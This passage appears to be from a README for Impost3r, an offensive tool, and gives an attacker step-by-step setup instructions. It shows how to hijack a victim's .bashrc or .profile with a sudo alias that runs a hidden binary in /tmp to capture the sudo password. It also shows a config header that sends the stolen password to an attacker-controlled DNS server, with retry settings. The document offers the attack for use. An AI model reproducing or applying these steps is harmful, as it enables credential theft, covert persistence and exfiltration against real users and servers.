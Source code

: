 - Check whether there is a ```.profile``` file in the user's root directory. If there is a ```.profile``` file: then check whether ```.bashrc``` is actively loaded in the ```.profile``` file (loaded by default), if it is actively loaded, skip this step and continue with the following operations.If it is not actively loaded, then **all operations for ```.bashrc``` in the following are replaced with operations for ```.profile```!!!**; if ```.profile``` does not exist, in principle, Impost3r will not be available, of course you can also depend on the situation to decide whether to generate ```.bash_profile``` or ```.profile``` file by yourself, and write loading code similar to the following to load ```.bashrc```

```
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
	. "$HOME/.bashrc"
    fi
fi
```

- Then copy the original ```.bashrc``` file ```cp ～/.bashrc /tmp/```,and put this copy anywhere you like(In this case,i will use /tmp/)

- Edit the original ```.bashrc```,and add following sentences at the end of file(The param "/tmp/.impost3r" must be as the same as the following FILENAME you specified):

```
alias sudo='impost3r() {
if [ -f "/tmp/.impost3r" ]; then
/tmp/.impost3r "$@" && unalias sudo
else
unalias sudo;sudo "$@"
fi
}; impost3r'
```

- Then,save it and run ```source ~/.bashrc```

- After that,attacker needs to edit the source code of Impost3r```/sudo/main.h```:

```
/*
    Custom setting
*/
# define FILENAME "/tmp/.impost3r" \\Set the location where the Impost3r is on the server you attack.
# define BACKUP_ORI_FILENAME ".bashrc" \\Indicates whether the source user profile backed up by the attacker is .bashrc or .bash_profile or .profile or .bash_login
# define BACKUP_ORI_PATH "/tmp/.bashrc" \\Indicates the location of the source user profile backed up by the attacker on the target server
# define SAVE_OR_SEND 0 \\Set the method you want to apply when Impost3r get the password,(send to your server=0,save the result on the current server=1,default is send)

/*
    Send to server
*/
# define YOUR_DOMAIN ".com" \\Note that if you don’t want to buy a domain name to receive messages sent back by Impost3r and the target server implanted in Impost3r does not prohibit direct udp connections to port 53 of the dns server you control, then please use the default value for the domain name here
\\But if the target server implanted in Impost3r strictly restricts the outbound dns request, please change the value of YOUR_DOMAIN to the domain name you purchased, such as ".example.com", and meanwhile configure the NS record of this domain name to be the DNS server address you control, run Fdns on this DNS server.Change the value of REMOTE_ADDRESS below to the default dns address of the target server implanted in Impost3r(like 192.168.0.1), also change REMOTE_PORT to the default dns service's listening port(port 53 in most cases).
# define MAX_RESEND 30 \\Set the maximum times that Impost3r will try to resends stealing result to attacker's server
# define RESEND_INTERVAL 5 \\Set the interval of resending stealing result.
```